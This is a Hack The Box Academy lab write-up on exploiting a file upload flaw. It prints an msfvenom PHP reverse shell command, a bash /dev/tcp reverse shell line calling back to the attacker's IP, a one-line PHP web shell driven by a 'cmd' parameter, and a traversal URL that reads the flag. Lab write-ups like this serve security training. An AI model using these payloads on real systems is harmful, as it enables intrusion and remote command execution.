# Hack The Box Academy - File Upload Exploitation Using a Web Shell | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Module:** File Upload Attacks &nbsp;•&nbsp; **Category:** Web
>
> **Target:** `154.57.164.82:30820` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---
## Assessment Overview



---

## Introduction

This is a lab where we have been told that a file upload vulnerability exists. Our goal in this lab is to find the technologies associated with this web application and generate a custom exploit to land a reverse shell.

First we can visit our web application.



*Figure 1 - The target web application, an "Employee File Manager" with a file upload area.*


---

## What I Learned

- How to fingerprint a web application's backend by hand when Wappalyzer comes up empty, by swapping the file extension and seeing which one the server actually executes.
- Confirming arbitrary command execution safely first with a small test script before reaching for a full payload.
- Using msfvenom to generate a custom PHP reverse shell payload, and what each flag in the command does.
- Why a reverse shell can silently fail even when the payload is correct, because outbound connections may be blocked by a firewall.
- Falling back to a web shell when a reverse shell is not possible, and driving it through a `cmd` GET parameter.

---

## Fingerprinting the Backend

When we tried to discover the technologies using Wappalyzer, it seems that we didn't get much information. So knowing that I am on the index page, I tried swapping the file extension to manually see what it was running. I tried `.csv`, `.txt`, and `.php`, and it seems that `.php` was working. Only `.php` loaded correctly, which told me the server is running PHP.



*Figure 2 - Requesting `index.php` renders the page correctly, confirming the backend is PHP.*

---

## Confirming the Vulnerability

Now that we know it is PHP, we can use msfvenom to generate a custom payload to help us exploit this vulnerable area. First, however, we can test with a simple PHP document to see if we can echo some text, just to confirm the vulnerability.

We created a simple PHP script that prints if the site is vulnerable and can execute arbitrary commands.

```php
<?php echo "Site is vulnerable"; ?>
```



*Figure 3 - The simple test script in nano.*

And it was a success, so now we can use msfvenom and netcat to get a fully functioning reverse shell.



*Figure 4 - Visiting the uploaded `shell.php` prints "Site is vulnerable", confirming arbitrary PHP execution.*

---

## Generating the msfvenom Reverse Shell

This is the command we used to create our payload.

```
msfvenom -p php/reverse_php LHOST=10.10.14.207 LPORT=4444 -f raw > reverse.php
```

The `-p` is the type of payload we want and what we want, i.e. a reverse shell. `LHOST` and `LPORT` will be our IP address and listener that is available to catch our request. `-f raw` is so that it can be usable, raw text, and `reverse.php` is the file it will be saved as.



*Figure 5 - Building the PHP reverse shell payload with msfvenom.*

Now we can start up our listener on the specified port.



*Figure 6 - Payload generated (2675 bytes) and a netcat listener started on port 4444.*

And we can upload our script to see if we can catch the connection. We have been told in this instance the firewall will not block outgoing connections.



*Figure 7 - Visiting `uploads/reverse.php`, but the listener never catches the connection.*

---

## Falling Back to a Web Shell

We waited for a while, and it seems the listener wasn't catching the connection. So we decided to manually write the PHP script ourselves, with the help of all the videos of watching IppSec doing reverse shells.

Our new script was the following.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.207/4444 0>&1'"); ?>
```

At this point I was really stuck. I even tried a different port, but I was getting no connection back. Perhaps a firewall is blocking the connection? Perhaps we can only get a web shell.

So we attempted the following script.

```php
<?php system($_GET['cmd']); ?>
```

This time it seemed to work, so for this exercise a reverse shell was not possible, only a web shell was possible.



*Figure 8 - The web shell executes commands as `www-data`. The terminal on the right shows every reverse shell attempt failing before the web shell finally works.*

---

## Retrieving the Flag

With command execution through the web shell, we listed the filesystem and found `flag.txt` at the root.



*Figure 9 - Listing `/` through the web shell reveals `flag.txt`.*

This was the final URL to retrieve our flag.

```
http://154.57.164.82:30820/uploads/shell3.php?cmd=cat+../../../../flag.txt
```



*Figure 10 - The flag returned through the web shell.*

> Retrieve the flag from the target.
